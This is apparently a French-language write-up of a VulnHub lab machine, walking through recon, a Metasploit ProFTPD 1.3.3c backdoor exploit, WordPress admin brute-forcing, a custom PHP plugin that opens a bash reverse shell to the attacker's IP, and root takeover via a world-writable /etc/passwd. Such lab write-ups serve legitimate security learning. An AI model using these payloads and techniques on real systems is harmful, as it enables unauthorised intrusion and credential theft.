










# Rendu sur la machine VulnHUB

# Etape 1: Reconnaissance

## 1.1 Découverte de la machine

```bash
netdiscover -r 192.168.228.0/24

target -> 192.168.228.131
```

## 1.2 Scan des ports ouverts

```bash
$ nmap -sV --script=http-enum 192.168.228.131

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 11:48 CET
Nmap scan report for 192.168.228.131
Host is up (0.0020s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum:
|_  /secret/: Potentially interesting folder
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
On lance un scan nmap avec le script `http-enum` pour voir si on trouve des informations sur les services web.<br>
On retrouve donc une machine sous Ubuntu avec un serveur FTP, SSH et HTTP.

# Etape 2: Attacking

## 2.1 FTP

On retrouve un serveur FTP qui utilise ProFTPD 1.3.3c. 
En cherchant sur metasploit, on trouve un exploit pour cette version de ProFTPD.

<p align="center">
    
</p>

```bash
msf6 > use exploit/unix/ftp/proftpd_133c_backdoor
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.228.131
RHOST => 192.168.228.131
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload 4
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > run
```

<p align="center">
    
</p>

On a un shell sur la machine en tant que `root`.
## 2.2 Apache

### 2.2.1 Accès à la page web

On a une page par defaut d'Apache, rien de bien interessant.

Avec l'enumeration du serveur HTTP, on trouve un dossier `/secret/` qui semble être un wordpress.

Déjà on voit que le CSS ne marche pas, grâce aux machines précédentes, on sait que c'est probablement une histoire de nom de domaine.

En regardant le code source de la page, on vois que le lien vers le CSS utilise le nom  `vtcsec` donc on ajoute `vtcsec` dans le fichier `/etc/hosts` et on rafraichit la page.

En se baladant sur le site on trouve pas grand chose de bien interessant, on va utiliser `wpscan` pour voir sur quoi on peut tomber.

<p align="center">
    
</p>

On voit des choses mais difficile de savoir ce qui est interessant...<br>
On va voir la page de connexion admin `http://vtcsec/secret/wp-login.php` et on va tenter de bruteforce les identifiants pendant qu'on cherche d'autres informations.

Grâce à metasploit, on a un script pour bruteforce les identifiants wordpress(`scanner/http/wordpress_login_enum`).<br>
J'utilise les wordlists de `unix-passwords` et `unix-users` sur une intuition que ce soit les mêmes mots de passe que pour un possible utilisateur unix.

<p align="center">
    
</p>
<p align="center">
    
</p>

Évidemment, c'était ``admin:admin`` ... On aurait du commencer par là...

### 2.2.2 Plugin malveillant

Maintenant qu'on a accès à l'interface d'administration, on peut faire un peu se que l'on veut sur le service web. Donc essayons d'uploader un plugin malveillant pour avoir un shell sur la machine.<br>
Après un peu de recherche il existe des exploits pour injecter des plugins dans wordpress en utilisant metasploit (`exploit/unix/webapp/wp_admin_shell_upload`).<br>
Mais j'ai vu que c'etait pas si compliqué de le faire manuellement, donc j'ai fait mon propre plugin reverse shell.

```php
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Michelle drucker
* Author URI: https://www.youtube.com/watch?v=dQw4w9WgXcQ
*/
exec('/bin/bash -c "bash -i >& /dev/tcp/192.168.228.130/4444 0>&1"');
```

Une simple ligne de commande qui va ouvrir un processus bash qui va se connecter à notre machine sur le port 4444.<br>
On compresse le fichier en `.zip` et on l'upload sur le site avec `http://vtcsec/secret/wp-admin/plugin-install.php?tab=upload`.

Apparemment c'est important de mettre les commentaires au début du fichier sinon la page ne reconnait pas le fichier comme un plugin.

Plus qu'à l'activer et à écouter sur le port 4444.

```bash
nc -lvnp 4444
```
<p align="center">
    
</p>

Et voilà, on a un reverse shell sur la machine. (dit comme ça, ça parraissait rapide mais je suis resté bloqué un moment sur le plugin qui ne voulait pas s'activer...il fallait juste rafraichir la page...)

### 2.2.3 Escalade de privilèges

On est connecté en tant que `www-data`, c'est super mais c'est pas root.<br>
il existe un script qui permet de trouver des permissions mal configurées sur la machine ([linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)).<br>
On va donc l'uploader sur la machine et l'executer (cURL n'est pas installé par contre wget oui).

<p align="center">
    
</p>

Par soucis de verbosité, on va pas afficher tout le résultat mais certains points sont interessants:
- `/etc/shadow` est accessible en lecture pour tout le monde (C'est le fichier qui contient les mots de passe hashés)
- `/etc/passwd` est accessible en lecture/écriture pour tout le monde (On peut donc ajouter un utilisateur et/ou modifier les mots de passe)

<p align="center">
    
</p>

Je n'avais pas vu au début que le fichier `/etc/passwd` était en écriture pour tout le monde, donc je me suis dit qu'il fallait brute force le mot de passe de l'utilisateur `marlinspike`.<br>
J'ai donc utilisé `john` pour cracker le mot de passe avec le hash trouvé dans `/etc/shadow`.

<p align="center">
    
</p>

Malheureusement, je n'ai pas réussi à cracker le mot de passe de l'utilisateur `marlinspike`.<br>

Mais en relisant le résultat de `linpeas`, je me suis rendu compte que j'avais les droits en écriture sur `/etc/passwd`.<br>
Donc je me suis renseigné un peu sur les possibilités que j'avais avec ce fichier. Au début je voulais juste ajouter un utilisateur pour me connecter en SSH mais je me suis rendu compte que je pouvais aussi modifier le mot de passe de l'utilisateur `root`.<br>
Par default, ils sont stockés dans `/etc/shadow` et donc dans le fichier `/etc/passwd` on a juste un `x`. Mais si on remplace le `x` par le hash du mot de passe que l'on veut, on peut effectivement changer le mot de passe de l'utilisateur `root`.

<p align="center">
    
</p>

Vu que le shell est assez limité, je pouvait pas lancer de `nano` ou `vim` pour modifier le fichier, pour pas me prendre la tête j'ai juste copié le contenu du fichier `/etc/passwd` dans un fichier sur ma machine, j'ai modifié le hash du mot de passe de `root` puis je l'ai renvoyé sur la machine avec un serveur HTTP python.

<p align="center">
    
</p>

Maintenant que le mot de passe de `root` est changé, on peut faire un `su root` avec le mot de passe que l'on a choisi.

<p align="center">
    
</p>

Et voilà, on a accès à la machine en tant que `root`.

# Tentative ratée

J'ai aussi essayé de bruteforce le mot de passe de l'utilisateur `marlinspike` avec `hydra` pour me connecter en SSH mais c'était un échec.

<p align="center">
    
</p>
